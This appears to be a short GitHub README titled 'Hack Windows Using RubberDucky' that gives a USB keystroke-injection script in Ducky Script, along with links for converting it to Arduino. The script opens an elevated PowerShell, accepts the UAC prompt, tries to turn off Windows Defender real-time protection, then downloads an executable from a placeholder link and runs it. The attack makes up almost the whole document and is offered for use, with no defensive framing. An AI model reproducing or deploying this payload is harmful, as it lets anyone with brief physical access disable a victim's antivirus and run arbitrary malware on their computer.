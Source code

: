 # Hack Windows Using RubberDucky – Keystroke Injection

### Ducky Script Command Reference
#### FOR MORE INFO VISIT: https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads

#### #Ducky to Arduino
https://d4n5h.github.io/Duckuino/

#### #Arduino IDE 
https://www.arduino.cc/en/software


``` GUI r
DELAY 200
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 2000
ALT y
DELAY 900
STRING Set-MpPreference -DisableRea $true; 
$d = New-Object System.Net.WebClient; 
$f = '1.exe'; 
$d.DownloadFile('YOUR PAYLOAD DOWNLOAD LINK',$f); 
$e = New-Object -com shell.application; $e.shellexecute($f); 
exit; ```
